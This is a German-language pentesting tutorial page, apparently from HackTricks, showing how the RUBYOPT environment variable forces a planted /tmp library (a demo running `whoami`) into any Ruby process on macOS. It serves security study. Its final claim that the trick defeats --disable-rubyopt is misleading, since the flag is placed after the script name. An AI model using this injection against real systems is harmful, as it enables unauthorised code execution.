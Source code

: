 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

Mit dieser Umgebungsvariable ist es möglich, **neue Parameter** zu **ruby** hinzuzufügen, wann immer es ausgeführt wird. Obwohl der Parameter **`-e`** nicht verwendet werden kann, um Ruby-Code anzugeben, ist es möglich, die Parameter **`-I`** und **`-r`** zu verwenden, um einen neuen Ordner zum Bibliotheksladepfad hinzuzufügen und dann **eine Bibliothek zum Laden anzugeben**.

Erstellen Sie die Bibliothek **`inject.rb`** in **`/tmp`**:
```ruby:inject.rb
puts `whoami`
```
Erstellen Sie irgendwo ein Ruby-Skript wie:
```ruby:hello.rb
puts 'Hello, World!'
```
Dann lassen Sie ein beliebiges Ruby-Skript es mit:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
Fun Fact: Es funktioniert sogar mit dem Parameter **`--disable-rubyopt`**:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
